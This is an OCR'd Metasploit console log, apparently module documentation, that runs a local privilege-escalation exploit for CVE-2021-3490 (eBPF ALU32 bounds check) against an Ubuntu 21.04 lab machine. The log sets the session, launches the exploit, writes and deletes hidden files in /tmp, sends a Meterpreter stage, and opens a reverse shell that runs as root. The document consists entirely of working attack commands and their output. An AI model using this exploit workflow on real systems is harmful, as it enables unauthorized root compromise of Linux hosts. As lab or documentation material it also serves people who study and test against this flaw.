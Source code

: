 ```
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.802fke5' (39352 bytes) ...
[*] Writing '/tmp/.75mogl0Vz6' (250 bytes) ...
[*] Launching exploit ...
[*] Sending stage (3012548 bytes) to 192.168.224.221
[+] Deleted /tmp/.802fke5
[+] Deleted /tmp/.75mogl0Vz6
[*] Meterpreter session 2 opened (192.168.224.128:4444 -> 192.168.224.221:42170) at 2021-08-17 17:40:19 -0500

meterpreter > sysinfo
Computer     : 192.168.224.221
OS           : Ubuntu 21.04 (Linux 5.11.0-16-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > background
[*] Backgrounding session 2...
smsf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                    Connection
  --  ----  ----                   -----------                                    ----------
  1         meterpreter x64/linux  test @ ubuntu (uid=1000, gid=1000, euid=1000,  192.168.224.128:41855 -> 192.168.224.221:4444
                                    egid=1000) @ 192.168.224.221                  (192.168.224.221)
  2         meterpreter x64/linux  root @ ubuntu (uid=0, gid=0, euid=0, egid=0)   192.168.224.128:4444 -> 192.168.224.221:42170
                                   @ 192.168.224.221                              (192.168.224.221)

msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) >
```
